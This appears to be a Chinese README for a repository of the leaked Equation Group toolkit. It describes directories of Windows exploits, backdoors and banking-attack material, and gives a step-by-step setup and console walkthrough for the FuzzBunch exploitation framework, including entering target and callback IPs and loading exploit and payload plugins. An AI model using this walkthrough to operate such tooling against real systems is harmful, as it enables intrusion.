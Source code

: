 # by vastxiao

## 目录结构

- windows/    包含Windows漏洞、后门、利用工具，等配置文件信息。
    * start\_lp.py    可执行py文件，其实调用configure\_lp.py。
    * configure\_lp.py
    * fb.py    可执行py文件，FuzzBunch工具启动文件。
- swift/      包括 银行攻击的一些内容
- oddjob/     包括与ODDJOB 后门相关的doc

## 工具介绍

windows这里包含两个工具：

* FuzzBunch
* DanderSpiritz

### FuzzBunch

FuzzBunch有点类似于metasploit，并且可跨平台，通过fb.py使用。

#### (1)环境使用
1. windows32
2. python-2.6.6.msi
3. pywin32-216.win32-py2.6.exe
4. java
5. 工具放在英文路径下，不能含有中文，目标机防火墙关闭
6. 在windows利用工具目录下创建listeningposts目录(注意不是c:/windows)
7. 复制EQGRP_Lost_in_Translation下的windows目录到工作目录。
8. 通过fb.py启动(windows 命令行窗口运行python fb.py)

**FuzzBunch框架的执行，需要各种配置项，启动fb.py后，根据提示指定：**
1. 目标的IP地址
2. 攻击者的回调地址(就是运行fb.py框架的主机地址);
3. 指示转发选项是否将被使用;
4. 指定log日志目录;
5. 该项目名称。

```
[*] Retargetting Session

[?] Default Target IP Address [] : 192.168.8.1
[?] Default Callback IP Address [] : 192.168.1.101
[?] Use Redirection [yes] : no

[?] Base Log directory [D:\logs] : c:\my_work\logs
[*] Checking c:\my_work\logs for projects
Index     Project
-----     -------
0         Create a New Project

[?] Project [0] :
[?] New Project Name : aaa
[?] Set target log directory to 'c:\my_work\logs\aaa\z192.168.8.1'? [Yes] : yes
```

#### (2)配置完成后的命令帮助

配置完成之后,进入下一步,使用help查看帮助命令:

```
fb > help

Core Commands
=============

  Command         Description
  -------         -----------
  !               Shortcut for shell
  ?               Shortcut for help
  autorun         Set autorun mode
  back            退出当前使用的功能交互模式
  banner          Print the startup banner
  changeprompt    Change the command prompt
  echo            Echo a message
  enter           Enter the context of a plugin
  eof             Quit program (CTRL-D)
  exit            Alias for back
  help            Print out help
  history         Run a previous command.
  info            Print information about the current context
  mark            Mark a session item
  python          Drop to an interactive Python interpreter
  quit            退出fuzzbunch
  redirect        Configure redirection
  resizeconsole   None
  retarget        重设目标ip，回调ip
  script          Run a script
  session         Show session items
  setg            Set a global variable
  shell           Execute a shell command
  show            Show plugin info
  sleep           Sleep for n seconds
  standardop      Print standard OP usage message
  toolpaste       Paste and convert data from external tool output
  unsetg          Unset a global variable
  use             Activate a plugin for use and enter context

fb >
```

#### (3)fb的使用功能分类

fb的使用是通过使用各种模块插件的功能实现的。

这里有fb的功能插件分类：

```
fb > info

--[ Version 3.5.1
  * 2 ImplantConfigs   # 注入配置
  * 0 ListeningPost
  * 15 Exploits        # 漏洞利用相关
  * 16 Touches         # 目标识别和利用漏洞发现
  * 15 Payloads        # 目标攻击成功后的操作
  * 2 Specials
```

#### (4)执行fb各类功能模块

开始执行fb的各类功能是使用use命令来调用相关模块插件：

使用``use <plugin name>``后将会进入相应插件的命令行：

```
fb > use Printjoblist

[!] Entering Plugin Context :: Printjoblist
[*] Applying Global Variables
[+] Set TargetIp => 10.0.10.254
[+] Set NetworkTimeout => 60

fb Touch (Printjoblist) >
```



### DanderSpiritz

# 参考教程

* http://www.360zhijia.com/360anquanke/191386.html
* http://bobao.360.cn/learning/detail/3739.html
* http://www.tuicool.com/articles/ErqAren


